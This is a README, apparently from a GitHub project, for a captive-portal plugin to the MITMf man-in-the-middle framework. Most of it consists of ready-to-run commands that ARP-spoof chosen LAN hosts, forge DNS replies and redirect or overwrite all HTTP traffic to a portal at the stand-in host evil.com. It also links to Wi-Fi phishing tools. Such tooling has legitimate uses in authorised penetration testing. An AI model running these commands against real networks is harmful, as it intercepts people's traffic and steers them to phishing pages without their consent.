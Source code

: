 MITMf-captive-portal plugin
===========================


# Commands

This command simply modifies all HTTP (80/tcp) and redirects them to portalurl.
`python mitmf.py -i wlan0 --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.29,192.168.178.21 --portal --portalurl http://www.evil.com`

Additionally to the above, this command listens for DNS queries and responsed with a forged CNAME and A record to redirect to the portal host. Race condition exists, as the legitimate response is not filtered.
`python mitmf.py -i wlan0 --log-level info --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portalurl http://www.evil.com --portaldns`

This command modifies all HTTP (80/tcp) responses and overwrites everything with the static template.
`python mitmf.py -i wlan0 --log-level info --spoof --dns --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portaltemplate /root/Tools/MITMf/config/portal/test.html`

If your are running a wifi access point you can use the following command (no spoofing required).
`python mitmf.py -i wlan0 --log-level info --portal --portalurl http://www.evil.com`

# Captive Portal Workflow
1. Client associates to the AP
2. Client starts a browser and generates ARP/DNS/HTTP traffic
3. HTTP gets captured by the Controller and then redirected to CP server URL
4. Client sends a HTTP GET to the CP server

# Links
## MITMf Intro
* [Introducing MITMf - A Framework for Man-In-The-Middle Attacks](http://sign0f4.blogspot.de/2014/07/introducing-mitmf-framework-for-man-in.html)

## Related Work
* [Evil Portal](https://github.com/frozenjava/evilportal)
* [Wifiphisher](https://github.com/sophron/wifiphisher)

